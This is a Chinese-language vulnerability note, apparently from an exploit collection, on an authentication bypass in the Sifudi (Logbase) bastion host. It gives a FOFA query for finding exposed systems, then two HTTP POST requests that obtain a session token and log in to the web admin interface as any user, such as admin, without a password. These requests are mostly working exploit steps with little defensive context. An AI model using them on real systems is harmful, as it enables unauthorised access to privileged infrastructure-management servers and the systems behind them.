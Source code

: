 # 思福迪堡垒机 任意⽤户登录漏洞

## 漏洞描述

思福迪堡垒机存在任意⽤户登录漏洞，恶意攻击者可以绕过堡垒机的密码登录验证机制，以任
意⽤户身份随意登录堡垒机Web管理界⾯，并可以正常的使⽤账户权限去操作。

## 漏洞影响

> [!NOTE]
>
> 思福迪堡垒机

## FOFA

> [!NOTE]
>
> "Logbase运维安全管理系统"

## 漏洞复现

获取INFO字段，u1参数值为⽤户名

```
POST /bhost/set_session HTTP/1.1
Host: xxx.xxx.xxx.xx
u1=admin&m1=
```

获得：**{"result":true,"info":"1562205376847","ErrMsg":""}**

带⼊INFO字段进⼊如下请求的 a0 参数值中,uCode参数值为⽤户名

```
POST /bhost/login_link HTTP/1.1
Host: xxx.xxx.xxx.xxx
a0=1562205376847&a1=&a10=2019-01-
01+10:10:10&ha=CADFDF26E649FB6284D2FD424BD294B6&uCode=admin&vdcode=
```

利用后即可登录后台

![](思福迪堡垒机-任意用户登录漏洞.assets/1627363059618335.jpg)